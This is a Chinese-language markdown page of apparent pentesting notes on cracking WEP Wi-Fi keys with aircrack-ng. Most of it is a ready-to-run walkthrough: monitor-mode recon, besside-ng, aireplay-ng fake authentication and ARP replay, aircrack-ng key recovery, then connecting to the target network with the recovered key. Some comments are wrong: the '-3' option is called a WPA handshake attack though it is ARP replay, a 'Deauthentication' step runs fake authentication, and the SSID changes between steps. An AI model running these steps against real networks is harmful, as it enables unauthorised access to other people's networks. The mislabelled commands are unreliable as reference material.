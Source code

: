 WEP Crack
===
🔙 [MENU README](../README.md)


```
用 RC4 加密和初始化向量（initialization vector）的特性，在擷取大量封包後便有機會將金鑰破解
Aircrack-ng 是一款無線網路安全測試工具，支援多種攻擊演算法，可用於破解 WEP 和 WPA/WPA2 密碼
WPA/WPA2 的破解其實仰賴於字典攻擊
```
> https://then.tw/aircrack-ng-wep/

![](../_src/WEPCrack.png)
> 透過抓取IV完成破解


# 原理
![](../_src/WPA_Handshake.png)
```
1. 攻擊者傳送deauthentication(不需要任何權限)，打掉Client，在客戶端重新連接時得到4-Handshake內的資訊
2. PTK = PMK + ANounce + SNounce + MAC1 + MAC2
   PTK = Hash(ESSID + <PSK> + 4096)
         + ANounce + SNounce + MAC1 + MAC2
3. 所有資訊都可以從4-Handshake內得到，除了PSK也就是WiFi密碼，只要嘗試用字典檔去爆到MIC = HASH(PTK)相符合
```

# Recon
```bash
# Monitor
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bga
```
```bash
# 找到WEP wifi
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSI                  MANUFACTURER
 F0:9F:C2:AA:19:29  -28      269     7478  278   1   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc
# #Data > 一直有在傳輸資料 > 差不多要大於 20000 筆會比較穩定
# CH    > 1
# ENC   > 加密方式為WEP
```
```bash
# Attack1
sudo airodump-ng wlan0mon --manufacturer --wps --band bga --channel 1

# Attack2
sudo airodump-ng wlan0mon --ivs -c1 -w capture -d F0:9F:C2:AA:19:29
# --ivs : 僅捕獲 IV (Initialization Vector) 數據包
# -w    : write file
# -d    : BSSID 
```
# Attack1 - besside-ng
```bash
sudo besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan0mon -v

# Got key for wifi-old [11:bb:33:cd:55]
```
Change Conf
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
    wep_key0=11bb33cd55
    wep_tx_keyidx=0
}
```
Try Connect
```bash
# connect
sudo wpa_supplicant -D nl80211 -i wlan2 -c wpa_supplicant.conf
# get IP
sudo dhclient wlan2 -v

# http://192.168.19.1
```

# Attack2 - aireplay-ng
Deauthentication
```bash
# 對客戶端傳送連線中斷訊息，從而使客戶端重新發出授權請求
# 再擷取其請求的封包，裡面就會有我們破解金鑰所需要的 IVs
sudo aireplay-ng -1 0 -a F0:9F:C2:AA:19:29 wlan0mon

# -1: 代表 fake authentication
# 0: 重連時間，以秒為單位
```
ARP Request Replay Attack
```bash
# 程式會監聽 ARP 封包，然後將其重新回傳 AP
# 這就會讓 AP 使用新的 IVs 重傳 ARP 封包
sudo aireplay-ng -3 -b 10:27:F5:F3:E2:7F wlp2s0mon

# -3: 表示進行 WPA 握手攻擊
```
破解 WEP 金鑰
```bash
# 回到 airodump-ng 的畫面，當看到 #Data 欄位的數字足夠大時，就可以開始破解 WEP 金鑰
# 差不多要大於 20000 筆會比較穩定
aircrack-ng capture-01.ivs

# ===============================

KEY FOUND! [ 11:BB:33:CD:55 ] 

```